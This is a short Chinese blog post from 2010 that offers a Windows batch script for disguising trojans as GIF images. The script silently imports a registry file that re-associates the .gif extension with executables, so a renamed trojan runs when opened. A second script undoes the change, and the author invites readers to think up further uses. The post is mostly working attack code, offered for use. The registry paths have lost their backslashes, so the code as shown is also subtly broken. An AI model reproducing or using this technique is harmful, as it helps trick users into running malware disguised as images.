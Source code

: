 ```yaml
---
layout: post
title: 普通文件也能成为黑客入侵的手段
date: 2010-04-17 07:46
author: admin
comments: true
categories: []
---
```

任意文件被当做木马来运行的办法

　　更改exe为gif：　　

　　@echo off

　　color 1A

　　ECHO Windows Registry Editor Version 5.00&gt;gif.reg

　　ECHO [HKEY_LOCAL_MACHINESOFTWAREClasses.gif]&gt;&gt;gif.reg

　　ECHO "Content Type"="application/x-msdownload"&gt;&gt;gif.reg

　　ECHO @="exefile"&gt;&gt;gif.reg

　　regedit /s gif.reg&gt;nul 2&gt;nul

　　del /s gif.reg&gt;nul 2&gt;nul　　

　　这个代码保存成.BAT的文件。　　

　　先运行这个BAT文件系统会把.GIF文件来当做应用程序来运行。　　

　　当然我们的木马后缀要换成.GIF 的，嘻嘻。　　

　　恢复gif默认：　　

　　@echo off

　　color 1A

　　ECHO Windows Registry Editor Version 5.00&gt;gif.reg

　　ECHO [HKEY_LOCAL_MACHINESOFTWAREClasses.gif]&gt;&gt;gif.reg

　　ECHO "Content Type"="image/gif"&gt;&gt;gif.reg

　　ECHO @="giffile"&gt;&gt;gif.reg

　　regedit /s gif.reg&gt;nul 2&gt;nul

　　del /s gif.reg&gt;nul 2&gt;nul　　

　　这个代码保存成.BAT的文件。　　

　　大家可以发挥想象,有很多可以利用的地方

